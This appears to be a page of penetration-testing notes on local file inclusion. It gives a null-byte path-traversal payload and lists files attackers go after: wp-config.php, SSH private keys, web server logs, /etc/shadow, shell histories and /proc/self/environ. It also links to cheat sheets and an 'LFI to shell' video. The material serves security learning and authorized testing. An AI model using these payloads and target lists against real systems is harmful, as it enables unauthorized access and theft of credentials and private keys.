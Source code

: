 # Local file inclusion

Local file inclusion means unauthorized access to filesystem.

With this we can get a hold of many sensitive files



In most web-services that use a database we can get a hold of the database username and password:


in wordpress the file is **wp-config.php**
And once you have gotten access to that you can do other things. Check out the chapter on mysql.


This is the definitive guide to Local File inclusion
https://highon.coffee/blog/lfi-cheat-sheet/

And this
http://securityidiots.com/Web-Pentest/LFI

And this:

https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/


## Linux

### Tricks

Check if a folder exists, go into it and the go out.

```
index.php?page=../../../../../../var/www/dossierexistant/../../../../../etc/passwd%00"
```

### Sensitive file


#### Web server files
```
# Usually found in the root of the website
.htaccess
config.php
```

#### SSH
```
authorized_keys
id_rsa
id_rsa.keystore
id_rsa.pub
known_hosts
```
#### Logs
```
/etc/httpd/logs/acces_log 
/etc/httpd/logs/error_log 
/var/www/logs/access_log 
/var/www/logs/access.log 
/usr/local/apache/logs/access_ log 
/usr/local/apache/logs/access. log 
/var/log/apache/access_log 
/var/log/apache2/access_log 
/var/log/apache/access.log 
/var/log/apache2/access.log
/var/log/access_log
```

#### General files

First you need to check the passwd file to find the users.
```
cat /etc/passwd
cat /etc/group
cat /etc/shadow
/var/mail/
```

#### User specific files

Found in the home-directory

```
.bash_history
.mysql_history
.my.cnf
```

#### Proc files

"Under Linux, /proc includes a directory for each running process, including kernel processes, in directories named /proc/PID, where PID is the process number. Each directory contains information about one process, including: /proc/PID/cmdline, the command that originally started the process."

https://en.wikipedia.org/wiki/Procfs

https://blog.netspi.com/directory-traversal-file-inclusion-proc-file-system/
```
/proc/sched_debug # Can be used to see what processes the machine is running
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/net/fib_trie
/proc/version
/proc/self/environ
```

## Bruteforcing SSH known_hosts

https://blog.rootshell.be/2010/11/03/bruteforcing-ssh-known_hosts-files/


## LFI to shell

https://www.youtube.com/watch?v=ttTVNcPnsJY
